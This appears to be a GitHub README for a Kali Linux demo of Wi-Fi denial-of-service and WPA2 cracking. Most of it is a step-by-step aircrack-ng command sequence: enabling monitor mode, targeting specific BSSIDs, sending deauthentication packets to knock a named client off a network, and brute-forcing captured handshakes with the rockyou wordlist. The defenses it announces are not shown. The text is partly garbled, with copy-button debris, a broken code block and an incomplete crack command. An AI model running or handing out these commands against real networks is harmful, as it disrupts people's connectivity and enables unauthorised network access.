 # WiFi-DOS-Kali
Demo of Wi-Fi DoS attacks via Kali Linux (Aircrack-ng, Aireplay-ng). Covers deauth attacks, brute-force cracking, and defenses. Includes PPT on attack types, tools, and commands. For ethical research only.


# WiFi-DOS-Kali

Demo of Wi-Fi DoS attacks via Kali Linux (Aircrack-ng, Aireplay-ng).  
Covers deauth attacks, brute-force cracking, and defenses.  
Includes PPT on attack types, tools, and commands.  
**For ethical research only.**

---

## Demonstration

```bash
# View network interfaces
ifconfig

# Start monitor mode on wlan0
airmon-ng start wlan0

# Kill interfering processes
airmon-ng check kill

# Confirm monitor mode
iwconfig

# Start scanning for Wi-Fi networks
airodump-ng -i wlan0mon

# Target specific BSSID and channel
airodump-ng --bssid 8E:F5:A3:77:D6:DB -c 3 -- wlan0
airodump-ng --bssid A8:32:9A:00:CE:96 -c 11 -w /root/Desktop/wpa2 -- wlan0mon




Deauthentication Attack (Kick clients out)
aireplay-ng -0 20 -a A8:32:9A:00:CE:96 -c 08:4A:CF:7D:47:14 wlan0mon


Brute Force Attack
bash
Copy
Edit
aircrack-ng -a2 -b 78:1D:BA:93:1F:9A -w /root/Desktop/rockyou.txt

aircrack-ng -a2 -b A8:32:9A:00:66:E8 -w /media/root/CAF04BE4F04BD57B/test/word.txt /media/root/CAF04BE4F04BD57B/test/Digicom-01.cap
Stop Monitor Mode
bash
Copy
Edit
airmon-ng stop wlan0mon
service network-manager restart

